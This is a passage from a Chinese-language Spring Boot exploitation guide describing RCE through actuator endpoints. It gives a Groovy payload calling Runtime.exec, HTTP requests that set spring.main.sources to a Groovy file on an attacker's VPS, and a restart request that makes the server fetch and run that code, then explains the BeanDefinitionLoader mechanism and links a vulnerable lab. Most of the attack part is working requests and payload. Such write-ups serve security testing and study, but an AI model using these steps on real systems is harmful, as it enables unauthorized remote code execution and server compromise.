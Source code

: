 ```xml
Runtime.getRuntime().exec("open -a Calculator")

```



##### 步骤二：设置 spring.main.sources 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://your-vps-ip/example.groovy
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.main.sources","value":"http://your-vps-ip/example.groovy"}
```



##### 步骤三：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



#### 漏洞原理：

1. 目标机器可以通过 spring.main.sources 属性来设置创建 ApplicationContext 的额外源的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot` 组件中的 `org.springframework.boot.BeanDefinitionLoader.java` 文件代码逻辑中会判断 url 是否以 `.groovy` 结尾
4. 如果 url 以 `.groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞



#### 漏洞环境：

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)
